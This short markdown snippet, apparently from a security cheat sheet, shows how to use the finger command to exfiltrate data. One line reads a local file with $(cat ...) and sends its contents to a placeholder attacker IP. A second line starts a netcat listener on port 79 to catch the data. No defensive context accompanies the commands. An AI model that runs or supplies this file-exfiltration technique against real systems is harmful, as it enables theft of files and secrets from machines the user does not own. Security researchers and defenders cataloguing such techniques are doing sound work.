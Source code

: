 # Finger

## 01 - Usage

```
$ finger "$(cat /path/to/file.txt)@<attacker_IP>

$ sudo nc -lnvp 79
```